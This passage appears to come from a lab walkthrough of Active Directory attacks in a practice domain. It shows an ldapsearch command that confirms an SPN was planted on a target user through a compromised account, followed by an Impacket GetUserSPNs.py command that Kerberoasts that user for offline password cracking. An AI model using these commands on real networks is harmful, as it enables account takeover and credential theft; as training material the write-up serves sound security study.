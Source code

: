 ### Verify The SPN Has Been Applied by Rerunning The Ldapsearch Query.

Now that we have **added an SPN** to the **robb.stark** user from our **compromised account** **jaremy.rykker**, we need to **verify** that the **SPN** was actually added. Once again, we turn to **old faithful** **ldapsearch**.

**Ldapsearch Command:**
```bash
ldapsearch -x -H ldap://192.168.1.154 -D "jaremy.rykker@north.sevenkingdoms.local" -w 'Winter123!' -b "DC=north,DC=sevenkingdoms,DC=LOCAL" "(sAMAccountName=robb.stark)" servicePrincipalName
```
Image below shows the output of the ldapsearch query. As can be seen, The user **robb.stark** is now tied to the **SPN:HTTP/somerandomhostname.north.sevenkingdoms.local**.
![dacl-ldapmodify-spn-added](assets/images/dacl-gw-on-user/dacls-spn-added-user-ldapmodify.png)

### Conduct Kerberoasting Attack to Retrieve Ticket

Now that the user **robb.stark** has a **Service Principal Name (SPN)** attached to the account, we can conduct a **Kerberoasting** attack using **GetUserSPNs.py** from **Impacket** to retrieve the **Kerberos service ticket** and crack it **offline** to reveal the **plaintext password** for the account.

**GetUserSPNs.py Command:**
```bash
python3 GetUserSPNs.py -dc-ip 192.168.1.154 north.sevenkingdoms.local/jaremy.rykker -request-user robb.stark
```
Image below shows the **successful Kerberoasting** attack targeting the **SPN: HTTP/somerandomhostname.north.sevenkingdoms.local** that we added.
![dacl-ldapmodify-kerberoast](assets/images/dacl-gw-on-user/ldapmodify-kerberoast.png)

